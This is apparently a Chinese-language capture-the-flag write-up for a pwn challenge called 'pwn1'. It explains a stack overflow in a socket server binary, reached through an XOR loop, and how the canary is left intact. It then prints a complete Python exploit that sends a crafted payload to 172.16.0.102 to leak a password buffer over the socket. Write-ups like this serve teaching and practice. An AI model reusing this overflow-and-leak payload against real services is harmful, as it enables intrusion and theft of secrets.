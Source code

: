 ## 题目名字

	pwn1

## 分值
	
	250

## 类型

	pwn

## 解题思路

首先查看bin文件，发现是一个有一点复杂的文件，有很多的函数放到一个数组里面:
![](files_for_writeup/pwn1.png)
然后我们顺着逻辑往下看，发现本身是一个socket监听的程序，然后会根据我们数的内容进行函数的调用:
![](files_for_writeup/pwn2.png)
我们选择其中一个函数跟入，能够找到其中存在的栈溢出漏洞;
![](files_for_writeup/pwn3.png)
这个地方根据我们输入的字符个数进行异或，然后将异或的第一个数字作为调用函数的下标。

所以如果我们传输的数字长度够长的话，那么循环就会作用在栈上，从而将别的值进行修改:
![](files_for_writeup/pwn4.png)
我们这里选取func_7b进行操作。同时，为了避免修改canary，我们这里在发生异或操作的时候，在canary初填充\0\0\0\0，避免对canary的修改。

最后，我们为了能够让函数返回值能够返回到我们指定的位置上，并且不要不小心将传入的参数内容改了(如果直接使用返回值的话，count修改掉从而出现问题)，我们需要使用a1(也就是我们最初传入的内容)来完成ret跳转，因此我们找到了如下的位置:
![](files_for_writeup/pwn5.png)
最后构造栈大致如下:
![](files_for_writeup/pwn6.png)

具体攻击代码如下:
```python
# -*- coding: utf-8 -*-
import struct, socket
from pwn import *

HOST = '172.16.0.102'
PORT = 24242

DEBUG= 0
if DEBUG:
    ph = process("./rhino")
    context.log_level = "debug"
    context.terminal=['tmux','splitw','-h']
    gdb.attach(ph, "")
else:
    s = socket.socket()
    s.connect((HOST, PORT))

# really return address
first_return_addr = 0x08056AFA
# padding
placeholder = 'xxxx'

gadget_pop_xor = struct.pack('<I', 0x080578f5 ^ first_return_addr)
password_addr = struct.pack('<I', 0x0805F0C0)
socksend_addr = struct.pack('<I', 0x0804884B)
exit_addr = struct.pack('<I', 0x08048670)

def get_payload(counter):
    # xor the counter to get our own counter
    counter_xor = struct.pack('<I', counter ^ 1)
    # składamy payload
    return (
            # return address
            socksend_addr
            # give a standard exit address
            + exit_addr
            # socket fd
            + struct.pack('<I', 4)
            # password address
            + password_addr
            # length to send
            + struct.pack('<I', 256)
            # padding
            + placeholder * 39
            # to avoid change canary
            + '\0\0\0\0'
            # padding
            + placeholder * 3
            # gadget address
            + gadget_pop_xor
            # padding
            + placeholder
            # the counter at argument
            + counter_xor
            )

# first, we get the length of our payload
payload_length = len(get_payload(123))
# then we can genenrate real exp
payload = get_payload(payload_length - 1)
if DEBUG:
    ph.sendline(payload)
    print ph.recv(1024)
else:
    s.send(payload)
    print s.recv(99999)

```
(最后的时候忘记放出elf了求轻拍)